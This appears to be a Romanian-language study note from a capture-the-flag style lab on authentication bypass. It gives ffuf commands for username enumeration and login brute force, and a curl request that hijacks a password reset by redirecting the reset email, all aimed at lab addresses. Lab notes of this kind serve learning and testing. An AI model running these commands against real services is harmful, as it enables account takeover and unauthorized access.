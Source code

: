 Tipul dat de vulnerabilitate ne permite sa acolim serviciul de autentificare fara a stie credintialele. 
In caz ca aplicatia noastra ne intoarce o eroare de tipul `utilizatorul dat este inregistrat` putem sa generam o lista de utilizatori care sunt pe platforma noastra cu instrumentul [[ffuf]]:
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.45.13/customers/signup -mr "username already exists"
```
`-w` → lista de nume care o verificam
`-X` → metodat `POST` deoarece transmitem ceva date
`-d` → in cazul nostrun fiecare nume din `names.txt` se va pune in `FUZZ` celelante campurin nu sunt interesante 
`-H` → 
`-mr` → mesajul de eroare care confirma ca un asa utilizator deja exista
### Brute force (ffuf)
Dupa ce am obtinut lista de utilizatori putem incerca o metoda de atack asupra serviciul nostru care are denumirea de [[BruteForce]] cu instrumentul [[ffuf]]:
```bash
ffuf -w /path/to/list/user.txt:W1,/path/to/password/pass.txt:W2 -X POST -d "username=W1&password=W2" -H 'Content-Type: application/x-www-form-urlencoded' -u http://10.10.45.13/customers/login -fc 200
```
Cum putem vedea sunt 2 liste in [[ffuf]] care pe urma sunt denumite ca `W1`,`W2` pentru acest atack
`-fc 200` → filtreaza ca se arate toate inafara de cererile care intorc status codul `200`

In acest caz noi putem sa transmitem resetarea parolei la alta adresa de `email` care trebuie sa fie inregistrata de noi din timp:
```shell
curl 'http://10.10.122.39/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```